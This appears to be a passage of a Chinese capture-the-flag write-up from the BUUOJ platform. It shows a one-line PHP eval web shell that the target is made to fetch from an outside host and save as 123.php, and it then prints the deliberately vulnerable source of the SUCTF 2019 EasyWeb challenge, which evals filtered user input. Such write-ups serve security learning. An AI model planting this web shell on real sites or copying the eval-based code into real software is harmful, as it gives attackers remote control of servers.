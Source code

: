 ```
1.txt
<?php @eval($_POST[a]); ?>
```

将这个木马文件写入到自定义的123.php 中

> http://ae1dea96-9018-4671-a599-2f80eeb7a409.node3.buuoj.cn/?url=http://xxx/1.txt&filename=123.php

蚁剑连接即可





## [SUCTF 2019]EasyWeb

感觉挺复杂的一题

**知识点：**

**1.无数字字母shell**
**2.利用.htaccess上传文件**    
**3.绕过open_basedir**

题目源码

```php
 <?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

